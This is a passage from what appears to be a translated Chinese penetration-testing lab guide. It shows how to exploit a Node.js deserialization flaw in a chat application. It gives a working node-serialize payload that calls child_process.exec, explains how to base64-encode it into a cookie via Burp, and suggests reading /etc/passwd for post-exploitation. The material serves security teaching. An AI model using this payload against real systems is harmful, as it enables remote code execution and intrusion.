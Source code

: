 ![](img/3-21.png)

如前所述，每种语言都有其独特的地方，NodeJS 也不例外。在 Node/Express/Pug 中，你无法直接写入 Web 目录，但是可以像在 PHP 中一样访问它。必须有一个指向文件夹的指定路径，该文件夹既可写又可访问到公共网络。

**创建有效 payload**

* 在开始之前，请记住实验中的所有这些 payload 都可以从这里复制粘贴：http://bit.ly/2qBDrFo
* 获取原始 payload 并修改你的 shell 执行“'DO SYSTEM COMMANDS HERE”

```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) {console.log(stdout)});}"}
```
 
* 例：
```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
 
* 由于原始 Cookie 已编码，我们必须通过 Burp Decoder/Encoder 对我们的 payload 进行 base64编码
    *示例 payload：eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxd
* 注销，打开Burp拦截，并转发/（home）请求
    * 将 cookie 修改为新创建的 Base64 payload
* 转发流量，因为公用文件夹是/的路由，你应该能够打开浏览器并转到 http://chat:3000/hacked.txt
* 你现在可以进行远程执行代码！随意对此系统进行后期利用。首先尝试访问 `/etc/passwd`。

![](img/3-22.png)
